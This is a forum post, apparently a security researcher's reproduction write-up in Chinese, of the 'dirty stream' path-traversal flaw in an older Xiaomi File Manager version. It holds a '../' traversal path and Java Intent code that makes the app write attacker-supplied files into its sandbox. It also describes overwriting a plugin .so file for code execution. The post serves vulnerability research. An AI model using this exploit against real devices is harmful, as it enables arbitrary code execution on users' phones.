# [Android 原创] dirty-stream漏洞

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1924259
- 抓取时间: 2026-11-02T01:13:35

下载地址：https://apkpure.com/cn/file-manager/com.mi.android.globalFileexplorer/versions

选择：2023年03月06 应用V1-210567版本

对标文章内容





## 结论
漏洞利用前置要求比较高，需要在手机上安装App并且要提供`content provider`组件，这个App的数据库里还必须写上穿越路径，之后发送`Intent`调起小米文件管理器，需要手动点击粘贴才行。

漏洞是能代码执行，但是不实用。

## Detail
漏洞成因是`xiaomi`读取我提供的`content provider`（不懂的自己去查）的 "`_display_name`" 字段 没有过滤 "`../`" 导致可以拼接穿越路径。

## 补丁前后对比

### 主要函数



### 补丁前


### 补丁后


## 利用
创建攻击者App并提供`Content Provider`组件，是为了让`xiaomi` App读攻击者提供的带 "`../`" 的字符串内容。

攻击App的`Manifest.xml`配置如下：

```
      
```

`./../../../../../../../../../../data/data/com.mi.android.globalFileexplorer/shared_prefs/hx.txt`

漏洞成功执行会在`xiaomi` App沙箱中的`shared_prefs`目录下创建`hx.txt`文件。

要写入的文件是攻击者App使用`intent`传递的。

```java
Uri uri = Uri.parse("content://com.hx.exploit/exploit.txt");	// 这里提供写入的文件路径
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mi.android.globalFileexplorer","com.android.fileexplorer.activity.CopyFileActivity"));
intent.putExtra("from_private",true);
intent.putExtra("inner_call",true);
intent.putExtra("explorer_path","content://com.hx.exploit/exploit.txt");
intent.setData(uri);
intent.setAction("android.intent.action.SEND");
startActivity(intent);
```

攻击者App使用这个`Intent`发送给`xiaomi` App。`xiaomi` App会解析`Intent`中的`Uri`内容并访问注册名为`com.hx.exploit`的`content provider`组件(攻击者App),使用`openFileDescriptor()`函数读取文件内容。攻击者App重载实现了`openFile()`函数，这样达到了写入内容可控。有了路径穿越就可以写`xiaomi` App沙箱内任意文件。







文章中说覆写垃圾清理插件的so，可达到任意代码执行效果。先修改`com.mi.android.globalFileexplorer_preferences.xml`文件中的`libixiaomifileu.so_hm5`字段，然后将攻击者的so文件写入。




同理`wps` app应该是类似的。

[1] https://www.microsoft.com/en-us/security/blog/2024/05/01/dirty-stream-attack-discovering-and-mitigating-a-common-vulnerability-pattern-in-android-apps/
